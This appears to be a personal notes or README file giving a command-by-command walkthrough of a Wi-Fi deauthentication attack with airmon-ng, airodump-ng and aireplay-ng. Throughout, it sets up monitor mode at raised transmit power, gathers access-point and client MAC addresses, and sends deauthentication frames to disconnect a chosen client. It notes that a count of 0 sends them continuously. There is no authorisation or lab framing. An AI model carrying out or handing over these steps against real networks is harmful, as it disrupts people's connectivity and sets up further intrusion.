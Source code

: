 # Deauthentication Attack
## Setup
Set router to max power
```
ifconfig wlan1 down
```
```
iwconfig wlan1 txpower 30
```
```
ifconfig wlan1 up
```
Preemptively kill everything that gets in your way:
```
sudo airmon-ng check kill
```
Start monitor mode:
```
sudo airmon-ng start wlan1
```
Run a test:
```
sudo aireplay-ng --test wlan1mon
```
Should see `Injection is working!`

Save what's out there and save to a file:
```
sudo airodump-ng wlan1mon --band agp -w dump
```

### Gather MAC addresses
Use this command to see live network traffic, enabling you to see all the devices on the network and their MAC addresses. if you run this live you'll inevitably see the clients disconnect and reconnect when you deauth. Remember to add `--band a` for 5GHz: 
```
sudo airodump-ng wlan1mon --band abg -w dump
```
The top half are going to be the available WIFI networks / Access Points (APs). You have to output to file because the terminal is too small to display all of them. The bottom half are going to be clients/`STATIONS` and the `Probes` should tell you what they're connected to.

---

### Monitor traffic
Once you've found your target, listen to it live with:
```
sudo airodump-ng wlan1mon --bssid XX:XX:XX:XX:XX:XX --band abg
```
OR (try both - router likely broadcasts multiple BSSIDs, once for each GHz or if it multiplate bands(?))
```
sudo airodump-ng wlan1mon --essid "NetworkName" --band abg
```

---

### Deauth
The actual deauth - where `5` is the number of deauths, `0` would be to send them continously.
```
sudo aireplay-ng -0 5 -a ACCESSPOINT-BSSID -c CLIENT-BSSID wlan1mon
```

---

## -- NOTES
You have to be on the same channel as the AP you're deauthing, change it with:
```
iwconfig wlan1mon channel 149
```

---
### For list of attacks:
We want `0` here
```
aireplay-ng
```
